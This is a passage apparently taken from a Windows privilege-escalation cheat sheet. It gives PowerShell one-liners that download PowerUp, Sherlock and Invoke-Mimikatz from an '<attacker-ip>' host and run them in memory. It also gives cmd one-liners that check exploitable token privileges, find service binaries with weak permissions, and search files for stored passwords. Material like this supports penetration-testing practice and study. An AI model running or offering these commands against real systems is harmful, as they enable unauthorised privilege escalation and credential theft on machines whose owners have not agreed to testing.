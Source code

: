 ### PowerShell Scripts
```powershell
# Download and run in memory
IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>/PowerUp.ps1')
IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>/Sherlock.ps1')
IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>/Invoke-Mimikatz.ps1')
```

## Time-Saving One-Liners

### Quick Privilege Check
```cmd
whoami /priv | findstr /i "SeImpersonatePrivilege SeAssignPrimaryTokenPrivilege SeBackupPrivilege SeRestorePrivilege"
```

### Service Vulnerability Scan
```cmd
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> services.txt & for /f eol^=^"^ delims^=^" %a in (services.txt) do cmd.exe /c icacls "%a" | findstr /i "everyone authenticated users todos"
```

### Quick Password Hunt
```cmd
findstr /spin "password" *.* 2>nul & findstr /spin "passw" *.* 2>nul & findstr /spin "pwd" *.* 2>nul
```

Remember: Always run automated tools like WinPEAS first, but understand what they're checking so you can perform manual verification and exploitation!